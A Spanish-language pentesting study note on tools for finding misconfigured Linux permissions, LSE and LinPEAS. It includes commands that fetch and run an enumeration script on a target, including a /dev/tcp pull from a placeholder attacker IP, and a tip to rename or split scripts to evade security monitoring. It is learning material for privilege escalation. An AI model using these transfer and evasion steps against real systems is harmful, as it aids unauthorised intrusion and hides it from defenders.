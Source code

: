 ```yaml
---
Tema: "[[Escalada de Privilegios]]"
---
```

# 🔍 Herramientas para Detectar Permisos Mal Configurados en Linux

> [!info] Contenido relacionado
> Este apunte es complementario a [[Deteccion de Archivos con Permisos Incorrectamente Implementados]] y forma parte del estudio sobre [[Escalada de Privilegios]].

---

## 📋 Introducción

Para detectar archivos con permisos mal configurados de manera más eficiente, existen herramientas automatizadas que simplifican el proceso de enumeración. Estas herramientas son fundamentales durante un pentest o en escenarios de escalada de privilegios.

---

## 🛠️ Herramientas Recomendadas

### 1. LSE (Linux Smart Enumeration)

> [!tip] Ventajas de LSE
> - Interfaz con código de colores para fácil interpretación
> - Salida muy completa y organizada
> - Categoriza los hallazgos por nivel de riesgo
> - Ligero y funciona en sistemas con recursos limitados

#### Instalación y uso de [[lse (linux smart enumeration)]]

El repositorio oficial se encuentra en: [lse](https://github.com/diego-treitos/linux-smart-enumeration)

**Método 1: Descarga directa en el sistema objetivo**
```bash
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/refs/heads/master/lse.sh
chmod +x lse.sh
./lse.sh
```

**Método 2: Transferencia desde máquina atacante** 

> [!warning] Consideraciones de seguridad
> Este método es preferible cuando el sistema objetivo tiene restricciones o no dispone de herramientas como [[wget]] o curl.

1. En la máquina atacante, prepara la transferencia con [[netcat]]:

```bash
nc -nlvp 443 < lse.sh
```

2. En la máquina víctima, recibe el archivo:

```bash
cat < /dev/tcp/IP_ATACANTE/443 > lse.sh
chmod +x lse.sh
./lse.sh
```

### 2. LinPEAS

> [!note] Alternativa potente
> [[linPEAS]] es otra excelente herramienta del proyecto PEASS (Privilege Escalation Awesome Scripts Suite) que ofrece una enumeración aún más exhaustiva, aunque puede generar más "ruido" en la salida.

---

## 📊 Comparativa de herramientas

| Característica | LSE | LinPEAS |
|----------------|-----|---------|
| Tamaño | Ligero (~100KB) | Más pesado (~500KB) |
| Detalle | Medio-Alto | Muy alto |
| Interfaz | Colores, bien organizado | Colores, muy detallado |
| Uso de recursos | Bajo | Medio |
| Tiempo de ejecución | Rápido | Más extenso |
| Facilidad de interpretación | Alta | Media (más información para filtrar) |

---

## 💡 Consejos prácticos

> [!example] Ejecutar con diferentes niveles
> Tanto LSE como LinPEAS permiten ejecutar la herramienta con diferentes niveles de profundidad:
> ```bash
> ./lse.sh -l 2  # Nivel 2 (más detallado que el predeterminado)
> ```

> [!tip] Guardar la salida para análisis posterior
> ```bash
> ./lse.sh -l 2 | tee resultados_lse.txt
> ```

> [!warning] Evitar detección
> En entornos monitorizados, considera renombrar los scripts o fragmentarlos para evitar detección por sistemas de seguridad.

---

## 🚀 Próximos pasos

Una vez identificados los archivos con permisos incorrectamente configurados:

1. Analizar cada hallazgo para determinar su potencial de explotación
2. Priorizar los vectores de ataque más prometedores
3. Desarrollar y probar los métodos de escalada de privilegios
4. Documentar todo el proceso para informes o aprendizaje

---

> [!success] Recuerda
> La detección automatizada es solo el primer paso. El análisis manual de los resultados y la comprensión de las vulnerabilidades específicas de permisos son cruciales para lograr una escalada de privilegios exitosa.